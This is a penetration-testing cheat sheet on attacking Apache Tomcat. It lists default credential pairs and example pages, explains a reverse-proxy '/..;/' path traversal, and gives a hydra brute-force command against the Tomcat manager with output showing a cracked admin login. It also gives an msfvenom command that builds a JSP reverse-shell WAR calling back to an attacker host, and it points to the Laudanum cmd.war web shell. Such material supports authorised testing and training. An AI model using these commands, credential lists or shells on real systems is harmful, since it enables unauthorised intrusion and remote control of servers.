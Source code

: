 ```yaml
---
description: Attacking Tomcat Service
---
```


# Tomcat

### Default Credentials

{% code overflow="wrap" %}
```
admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```
{% endcode %}

### Default Pages

* /examples/jsp/num/numguess.jsp&#x20;
* /examples/jsp/dates/date.jsp&#x20;
* /examples/jsp/snp/snoop.jsp&#x20;
* /examples/jsp/error/error.html&#x20;
* /examples/jsp/sessions/carts.html&#x20;
* /examples/jsp/checkbox/check.html&#x20;
* /examples/jsp/colors/colors.html&#x20;
* /examples/jsp/cal/login.html&#x20;
* /examples/jsp/include/include.jsp&#x20;
* /examples/jsp/forward/forward.jsp&#x20;
* /examples/jsp/plugin/plugin.jsp&#x20;
* /examples/jsp/jsptoserv/jsptoservlet.jsp&#x20;
* /examples/jsp/simpletag/foo.jsp&#x20;
* /examples/jsp/mail/sendmail.jsp&#x20;
* /examples/servlet/HelloWorldExample&#x20;
* /examples/servlet/RequestInfoExample&#x20;
* /examples/servlet/RequestHeaderExample&#x20;
* /examples/servlet/RequestParamExample&#x20;
* /examples/servlet/CookieExample&#x20;
* /examples/servlet/JndiServlet&#x20;
* /examples/servlet/SessionExample&#x20;
* /tomcat-docs/appdev/sample/web/hello.jsp&#x20;
* /docs

### Tomcat Path Traversal

Web servers and reverse proxies normalize the request path. For example, the path **/image/../image/** is normalized to **/images/**. When Apache Tomcat is used together with a reverse proxy such as nginx there is a nromalization inconsistency.\
\
Tomcat will threat the sequence **/..;/** as **/../** and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.\
\
This allows an attacker to access Apache Tomcat resources that are not normally accessible via the reverse proxy mapping.

Reference:

* [https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

### Brute Force Attack

{% code overflow="wrap" %}
```bash
hydra -L users.txt -P passwords.txt -f 172.16.8.148 -s 8080 http-get /manager/
```
{% endcode %}

Example output:

```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-06 21:36:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:4/p:5), ~2 tries per task
[DATA] attacking http-get://172.16.8.148:8080/manager/
[8080][http-get] host: 172.16.8.148   login: admin   password: admin
[STATUS] attack finished for 172.16.8.148 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-06 21:36:02
```

And then, login into Tomcat Manager.

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhvZKD1qweQw89MqrzEJ1e1J1tcJ3rWizWLCWZzzGYVlMxy__d-6_HhXmrzFqndxwt0rORQ5nYFYRNppkcfjSzXmgwJMlDXGwUOnz8oE3myyUtQTagJQhbq6MiAv0MVQ6bWZrCbdxS7k8SMQqdNOT6SKnmT7qXnpfbMMP4XXEeAOK3zO04IWxl-Qgb2raw/s1000/tomcat-manager.png" alt=""><figcaption><p>Tomcat Manager</p></figcaption></figure>

### Backdooring Tomcat Manager

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.8.1 LPORT=4448 -f war -o revshell.war
```
{% endcode %}

Or use Laudanum cmd.war shell at **/usr/share/laudanum/jsp**.

{% code overflow="wrap" %}
```bash
➜  jsp tree
.
├── cmd.war
├── makewar.sh
└── warfiles
    ├── cmd.jsp
    ├── META-INF
    │   └── MANIFEST.MF
    └── WEB-INF
        └── web.xml

4 directories, 5 files
```
{% endcode %}

Example of Laudanum WAR Shell

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjw11cCHRkpxpt-Mrl8AEsmzZcRDa75MDV2X9EmAUXHAhqOuFMRFHyy_DNK3P88bCHD9raqARpGVbUGr2qknCKOjdb-lKfw8RKW9VhG32s3ekVBK3VZ79NQqQdnOnooaOO0K129Ueoq99t2DkQ2Q9d_cpD9FFIR5lupJ0H1z2GdNPXBTIoiOAs4jzpInUg/s1000/tomcat-mgr-rce.png" alt=""><figcaption><p>CMD Shell</p></figcaption></figure>

### Other Tools

* [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)

Update soon....
